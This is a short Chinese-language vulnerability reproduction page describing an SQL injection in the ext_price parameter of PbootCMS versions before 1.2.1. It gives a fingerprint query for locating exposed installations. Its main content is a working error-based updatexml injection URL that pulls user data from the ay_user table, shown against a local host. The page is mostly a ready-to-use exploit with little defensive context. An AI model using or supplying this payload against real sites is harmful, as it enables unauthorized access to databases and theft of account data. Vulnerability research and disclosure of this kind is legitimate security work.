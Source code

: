 # PbootCMS ext_price SQL注入漏洞

## 漏洞描述

PbootCMS 存在SQL注入漏洞。通过漏洞可获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>PbootCMS < 1.2.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="PBOOTCMS"</a-checkbox></br>

## 漏洞复现

主页

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210702113507454.png)



测试 Payload



```plain
/index.php/Index?ext_price%3D1/**/and/**/updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,user(),0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1));%23=123](http://127.0.0.1/PbootCMS/index.php/Index?ext_price%3D1/**/and/**/updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,user(),0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1));%23=123)
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210702113552582.png)